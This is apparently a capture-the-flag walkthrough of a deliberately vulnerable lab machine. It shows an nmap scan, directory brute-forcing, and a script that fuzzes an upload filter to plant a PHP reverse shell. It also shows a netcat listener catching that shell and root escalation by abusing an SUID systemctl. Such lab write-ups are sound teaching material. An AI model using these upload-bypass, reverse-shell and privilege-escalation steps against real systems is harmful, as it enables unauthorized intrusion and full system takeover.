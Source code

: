 ![](JFYfwL8.png)
# Enumerations
## Nmap scan
Here is the task 2 answers all in this nmap scan. 
```text
# Nmap 7.91 scan initiated Sun May 30 18:01:18 2021 as: nmap -sV -sC -oN nmap/vuln 10.10.205.62
Nmap scan report for 10.10.205.62
Host is up (0.22s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5a:4f:fc:b8:c8:76:1c:b5:85:1c:ac:b2:86:41:1c:5a (RSA)
|   256 ac:9d:ec:44:61:0c:28:85:00:88:e9:68:e9:d0:cb:3d (ECDSA)
|_  256 30:50:cb:70:5a:86:57:22:cb:52:d9:36:34:dc:a5:58 (ED25519)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
3128/tcp open  http-proxy  Squid http proxy 3.5.12
|_http-server-header: squid/3.5.12
|_http-title: ERROR: The requested URL could not be retrieved
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Vuln University
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h20m00s, deviation: 2h18m34s, median: 0s
|_nbstat: NetBIOS name: VULNUNIVERSITY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: vulnuniversity
|   NetBIOS computer name: VULNUNIVERSITY\x00
|   Domain name: \x00
|   FQDN: vulnuniversity
|_  System time: 2021-05-30T08:32:09-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-05-30T12:32:09
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun May 30 18:02:18 2021 -- 1 IP address (1 host up) scanned in 59.24 seconds
```
# Web page
According to the nmap scan we found nice web page in the port 3333
![](webpage.png)

## Task 3 
1.  What is the directory that has an upload form page?
Here I'm using dirb because it's my favourite tool for brute-forcing urls
```text
-----------------
DIRB v2.22    
By The Dark Raver
-----------------

OUTPUT_FILE: dirb.log
START_TIME: Sun May 30 18:26:08 2021
URL_BASE: http://10.10.205.62:3333/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
OPTION: Not Recursive

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://10.10.205.62:3333/ ----
==> DIRECTORY: http://10.10.205.62:3333/css/
==> DIRECTORY: http://10.10.205.62:3333/fonts/
==> DIRECTORY: http://10.10.205.62:3333/images/
+ http://10.10.205.62:3333/index.html (CODE:200|SIZE:33014)
==> DIRECTORY: http://10.10.205.62:3333/internal/
==> DIRECTORY: http://10.10.205.62:3333/js/
```
You can upload images from /internal/ directory.
![](upload.png)

## Task 4
1. Try upload a few file types to the server, what common extension seems to be blocked? 
Let's see we can upload some php revshells and get the access to this machine. Seems like we can't upload .php files. 

They said to use burpsuit for fuzz the upload form. But here allow me to show new script I make to fuzz the upload form. This script turn our php file to correct format.
```python
#! /usr/bin/env python3
import requests
import os

ip = "10.10.155.48"
url = f"http://{ip}:3333/internal/index.php"

old_filename = "php-revshell.php"
filename = "php-revshell"
extensions = [".php", ".php3", ".php4", ".php5", ".phtml"]

for ext in extensions:
    new_filename = filename + ext
    os.rename(old_filename, new_filename)

    files = {"file": open(new_filename, "rb")}
    r = requests.post(url, files=files)

    if "Extensions not allowed" in r.text:
        print(f"{ext} not allowed")
    else:
        print(f"{ext} allowed")

    old_filename = new_filename

```

2. Run this attack, what extension is allowed?
If we look at the our result we got hit with .phtml extension.

3. What is the name of the user who manages the web server?
Now we need to get into the machine. Go ahead setup a listener to our port. http://10.10.229.33:3333/internal/uploads/ here we can found our reverse shell.
```bash
┌─[✗]─[visith@parrot]─[~]
└──╼ $nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.9.2.218] from (UNKNOWN) [10.10.229.33] 60408
Linux vulnuniversity 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 06:47:05 up 7 min,  0 users,  load average: 0.05, 0.54, 0.42
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ /usr/bin/script -qc /bin/bash /dev/null
www-data@vulnuniversity:/$
```
If we look into the /etc/passwd list we can see bill and root. So answer is **bill**.

4. What is the user flag?
Its in the bill's home directory. (cd /home/bill && cat user.txt)

## Task 5

1. On the system, search for all SUID files. What file stands out?

find / -perm -4000 2>/dev/null
```bash
www-data@vulnuniversity:/home/bill$ find / -perm -4000 2>/dev/null
find / -perm -4000 2>/dev/null
/usr/bin/newuidmap
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/at
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/squid/pinger
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/bin/su
/bin/ntfs-3g
/bin/mount
/bin/ping6
/bin/umount
/bin/systemctl
/bin/ping
/bin/fusermount
/sbin/mount.cifs
```
/bin/systemctl not common. So answer was the **/bin/systemctl**

2. Become root and get the last flag (/root/root.txt)
Now we know systemctl is SUID . Let's see how we can use this to get root. 
Link to source - https://gtfobins.github.io/gtfobins/systemctl/

```bash
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "chmod +s /bin/bash"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```
Now we successfully change permission

```bash
www-data@vulnuniversity:/$ ls -l /bin/bash
ls -l /bin/bash
-rwsr-sr-x 1 root root 1037528 May 16  2017 /bin/bash
```

I do some changes in the script gives by GTFO bins. Now I can simply type 'bash -p' and get root. It tells we in www-data but in the script we change the group to root . So now we can head over to the cd /root/ and get the flag.

```bash
www-data@vulnuniversity:$ bash -p
bash -p
bash-4.3# id
id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
bash-4.3# cd /root
cd /root
bash-4.3# ls
ls
root.txt
```